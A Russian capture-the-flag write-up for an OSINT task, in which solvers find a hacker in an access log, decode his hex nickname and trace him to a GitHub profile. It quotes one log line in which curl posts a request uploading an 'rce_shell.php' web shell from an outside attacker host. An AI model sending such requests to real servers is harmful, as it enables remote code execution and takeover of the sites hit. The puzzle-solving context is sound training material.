



# OSINT / Кто ищет, тот всегда найдёт
Author: [baksist](https://ucucu.ga/baksist)  
URL: https://q.2023.ugractf.ru/tasks/elementary/  
Downloads: [access.log](access.log)

### Задание

> Одному хакеру настолько сильно понравился наш курс, что он решил его взломать. Сможете его 
> найти?  

> Добавлено 15 января в 00:00:  
> 
> Подсказка 1. Хакер знал, что его будут пытаться найти в подобном файле, и достаточно неплохо 
> замаскировался. Будьте внимательнее.  
> 
> Подсказка 2. Когда вы увидите его имя, не пытайтесь найти в нём глубинные смыслы. Оно просто 
> вот такое, каким вы его видите.  

> Добавлено 15 января в 14:15:  
> 
> Подсказка 3. Если вы уже нашли личный сайт хакера, то вы знаете его ник. Разве вам нужно что-то 
> ещё?

### Решение: 

Открываем `log` файл и роемся.  
Среди мусора находим следующую достаточно интересную строчку  
```
20.22.13.37 - - [15/May/2022:09:02:16 +0300] "POST /upload?file=https://ugrac1f.ru/attack_share/rce_shell.php HTTP/2.0" 200 38 "-" "curl/7.54.1"
```



Переодим на сайт [https://ugrac1f.ru/](https://ugrac1f.ru/)



Можно долго гадать, что это и даже перевести в другой вид и после декодирования это будет 
`UgraC1F`  
Но на самом деле это `0x55677261433146` никнейм (Подсказка 3)

Идем в [сервис проверки никнеймов](https://namechk.com/)


Далее на [GitHub https://github.com/0x55677261433146](https://github.com/0x55677261433146)



Флаг найден!